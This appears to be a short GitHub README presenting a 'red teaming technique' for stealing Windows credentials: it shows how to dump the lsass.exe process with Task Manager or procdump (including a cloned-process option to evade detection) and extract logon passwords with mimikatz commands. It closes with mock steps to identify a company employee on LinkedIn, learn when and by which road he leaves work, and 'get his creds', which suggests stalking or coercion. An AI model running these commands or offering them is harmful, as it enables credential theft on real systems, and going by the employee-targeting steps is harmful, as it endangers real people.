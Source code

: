 # the_new_redteaming_technique

First OF all, Create a minidump of the lsass.exe using task manager (must be running as administrator):

![alt text](https://2603957456-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-LFEMnER3fywgFHoroYn%2F-L_nQv2zz6p9_9DMKQfx%2F-L_nTRoRHqLqkBWb_aw4%2FScreenshot%20from%202019-03-12%2019-55-27.png?alt=media&token=0c8f45d6-6425-4d5a-8e3f-1f30ff4577ec)

![alt text](https://2603957456-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-LFEMnER3fywgFHoroYn%2F-L_nQv2zz6p9_9DMKQfx%2F-L_nTYMBz-VWM11dadu6%2FScreenshot%20from%202019-03-12%2019-56-12.png?alt=media&token=f92b493e-f1aa-4a46-8edf-d64eebdd9f65)




Second , Swtich mimikatz context to the minidump:

sekurlsa::minidump C:\Users\ADMINI~1.OFF\AppData\Local\Temp\lsass.DMP
sekurlsa::logonpasswords



![alt text](https://2603957456-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-LFEMnER3fywgFHoroYn%2F-L_nQv2zz6p9_9DMKQfx%2F-L_nT6tDqGhJv_fdKOnw%2FScreenshot%20from%202019-03-12%2019-54-15.png?alt=media&token=cccc99d5-632c-40aa-903d-d89c21fb1133)







Now it's a time for Procdump

```
procdump.exe -accepteula -ma lsass.exe lsass.dmp

// or avoid reading lsass by dumping a cloned lsass process
procdump.exe -accepteula -r -ma lsass.exe lsass.dmp
```



![alt text](https://2603957456-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-LFEMnER3fywgFHoroYn%2F-L_nQv2zz6p9_9DMKQfx%2F-L_nX2I6LfCsWLSkjzwg%2FScreenshot%20from%202019-03-12%2020-11-28.png?alt=media&token=43e85fd4-36bf-43ba-9fd9-62d43712e1e8)




![alt text](https://2603957456-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-LFEMnER3fywgFHoroYn%2F-L_nQv2zz6p9_9DMKQfx%2F-L_nXVaJRSNnJZayxbL_%2FScreenshot%20from%202019-03-12%2020-13-25.png?alt=media&token=4e87b3ef-c690-4b43-b3f6-0ba244495398)






After doing all of the above steps, you need to do the following steps: 

1- try to figure the needed employee from Linkedin profile of the company 






2- try to know when the employee will leave the work and which road he will take 



3- use this technique to get his creds 

![alt text](https://i.ibb.co/vQVQXkQ/279407320-359224712933498-202643383967457168-n.jpg)




PS : all screen shots are from https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dump-credentials-from-lsass-process-without-mimikatz
